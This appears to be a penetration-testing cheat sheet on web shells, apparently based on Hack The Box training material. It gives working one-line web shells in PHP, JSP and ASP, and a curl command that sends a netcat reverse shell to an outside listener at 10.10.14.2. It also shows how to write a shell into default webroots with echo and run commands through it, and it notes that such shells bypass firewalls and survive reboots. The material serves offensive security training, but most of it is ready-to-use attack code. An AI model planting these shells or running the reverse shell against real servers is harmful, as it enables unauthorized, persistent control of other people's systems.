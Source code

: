 # Web Shell

### php

```php
<?php system($_REQUEST["cmd"]); ?>

curl http://10.10.10.150/index.php -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f'

```

### jsp

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```aspnet
<% eval request("cmd") %>
```

## **Uploading a Web Shell**

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. <mark style="color:green;">`shell.php`</mark> and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server                                 | Default Webroot        |
| ------------------------------------------ | ---------------------- |
| <mark style="color:green;">`Apache`</mark> | /var/www/html/         |
| <mark style="color:green;">`Nginx`</mark>  | /usr/local/nginx/html/ |
| <mark style="color:green;">`IIS`</mark>    | c:\inetpub\wwwroot\\   |
| <mark style="color:green;">`XAMPP`</mark>  | C:\xampp\htdocs\\      |

We can check these directories to see which webroot is in use and then use <mark style="color:green;">`echo`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a <mark style="color:green;">`PHP`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> shell with the following command:

```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## **Accessing Web Shell**

Once we write our web shell, we can either access it through a browser or by using <mark style="color:green;">`cURL`</mark>. We can visit the <mark style="color:green;">`shell.php`</mark> page on the compromised website, and use <mark style="color:green;">`?cmd=id`</mark> to execute the <mark style="color:green;">`id`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> command:

![](https://academy.hackthebox.com/storage/modules/33/write\_shell\_exec\_1.png)

Another option is to use <mark style="color:green;">`cURL`</mark>:

```bash
lojique@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on <mark style="color:green;">`80`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> or <mark style="color:green;">`443`</mark>, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
